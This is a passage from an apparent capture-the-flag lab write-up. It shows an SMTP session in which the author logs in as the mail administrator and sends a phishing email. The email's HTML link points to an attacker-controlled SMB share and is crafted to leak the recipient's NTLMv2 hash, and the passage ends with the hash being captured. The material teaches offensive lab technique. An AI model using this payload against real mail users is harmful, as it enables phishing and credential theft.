 ```bash
    0060 - f8 e8 3b 01 63 0c f1 3d-e3 88 3b 47 c2 da 49 e4   ..;.c..=..;G..I.
    0070 - 55 e5 ba 50 2f 86 5d 0e-6a 76 8a 66 37 72 aa 58   U..P/.].jv.f7r.X
    0080 - 38 1e 88 e8 38 f5 94 c2-bb e9 d5 88 1e 61 b5 88   8...8........a..
    0090 - d1 d4 a0 a2 7b 34 67 be-d7 50 7b 4e a4 11 fd d2   ....{4g..P{N....

    Start Time: 1725559122
    Timeout   : 7200 (sec)
    Verify return code: 18 (self-signed certificate)
    Extended master secret: yes
---
250 HELP
```

![Untitled5](https://github.com/user-attachments/assets/89a5ff8f-e83c-49db-ba55-02527a1d04fd)

Once the secure session is established, the sequence of commands is the same as the previous case.
```markdown
auth login
334 VXNlcm5hbWU6
YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
334 UGFzc3dvcmQ6
aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
235 authenticated.
mail from:administrator@mailing.htb
250 OK
rcpt to:maya@mailing.htb
250 OK
data
354 OK, send.
From: administrator@mailing.htb
To: maya@mailing.htb
Subject: URGENT - security patch
MIME-Version: 1.0;
Content-Type: multipart/alternative; boundary="boundary_string"

--boundary_string
Content-Type: text/plain; charset="utf-8"

Hey Maya, read this in HTML mode and click on the attached link asap. 

--boundary_string
Content-Type: text/html; charset="utf-8"

<html>
<body>
<h1><a href="file:///\\10.10.14.146\dummy!imap">urgent click here to install security patch</a></h1>
</body>
</html>

--boundary_string--

.
250 Queued (36.032 seconds)
quit
221 goodbye
00C58A7C917F0000:error:0A000126:SSL routines::unexpected eof while reading:../ssl/record/rec_layer_s3.c:689:
```
And the NTLMv2 hash is received on the SMB server as well.
